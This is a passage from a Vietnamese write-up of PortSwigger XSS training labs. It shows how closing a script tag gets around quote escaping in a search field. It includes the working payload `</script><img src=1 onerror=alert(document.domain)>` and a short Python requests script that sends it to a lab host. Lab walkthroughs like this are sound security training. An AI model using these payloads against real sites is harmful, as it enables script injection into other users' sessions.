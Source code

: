 ### Phân tích

- Chuỗi user search được lưu vào biến searchTerms.
- `'` đã bị escape.

![image](https://hackmd.io/_uploads/ryV811O9T.png)

### Khai thác

- Tuy nhiên, ta thử thêm </script> để đóng tag script rồi thêm XSS
- Vậy payload của ta giờ sẽ là: `</script><img src=1 onerror=alert(document.domain)>`

mình đã viết lại scrip khai thác

```python
#!/usr/bin/python3.7
import requests
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a80004d0360deeb8028fdfb00b40096.web-security-academy.net'

payload= "</script><img src=1 onerror=alert(document.domain)>"
response = requests.get(
    url  + "/?search=" + payload,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```

mục đích của chúng ta đã hoàn thành và mình cũng đã giải quyết được bài lab này

![image](https://hackmd.io/_uploads/Bkre1yd5p.png)

## 19. Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

link: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped

### Đề bài

![image](https://hackmd.io/_uploads/BJOvFCDc6.png)

### Phân tích
